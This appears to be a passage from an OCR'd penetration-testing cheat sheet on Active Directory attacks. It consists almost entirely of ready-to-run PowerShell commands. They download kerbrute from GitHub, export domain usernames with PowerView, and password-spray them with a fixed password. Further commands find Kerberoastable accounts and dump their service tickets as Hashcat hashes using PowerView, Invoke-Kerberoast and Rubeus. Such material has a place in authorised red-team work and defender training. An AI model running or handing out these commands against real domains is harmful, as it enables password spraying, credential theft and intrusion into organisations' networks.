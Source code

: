 ### Kerbrute
`Invoke-WebRequest "https://github.com/ropnop/kerbrute/releases/download/v1.0.3/kerbrute_windows_amd64.exe" -OutFile ".\kerbrute.exe"`

`Import-Module .\PowerView.ps1`

`(Get-NetUser | select samAccountName).samAccountName > users.txt`

`.\kerbrute.exe passwordspray --domain contoso.azure .\users.txt Start123!`

ToDo error

# 3. Kerberoasting
## Identify Kerberoastable users
### PowerView
`Import-Module .\PowerView.ps1`

`Get-NetUser | Where-Object {$_.servicePrincipalName} | fl`

`Get-NetUser -SPN | ft serviceprincipalname, samaccountname, cn, pwdlastset`

### PowerView-Dev
`Import-Module .\PowerView-dev.ps1`

`Get-DomainUser | Where-Object {$_.servicePrincipalName} | fl`

`Get-DomainUser -SPN | ft serviceprincipalname, samaccountname, cn, pwdlastset`

### Invoke-Kerberoast
`Import-Module .\Invoke-Kerberoast.ps1`

`Invoke-Kerberoast`

### Rubeus
`.\Rubeus.exe kerberoast`

## Get TGS Kerberos Tickets
### PowerView-Dev
`Import-Module .\PowerView-dev.ps1`

`Get-DomainUser -SPN | Get-DomainSPNTicket -OutputFormat Hashcat | % { $_.Hash } | Out-File -Encoding ASCII kerberoasted.txt`

### Invoke-Kerberoast
`Import-Module .\Invoke-Kerberoast.ps1`

`Invoke-Kerberoast | % { $_.Hash } | Out-File -Encoding ASCII kerberoasted.txt`

### Rubeus
`.\Rubeus.exe kerberoast /outfile:kerberoasted.txt`
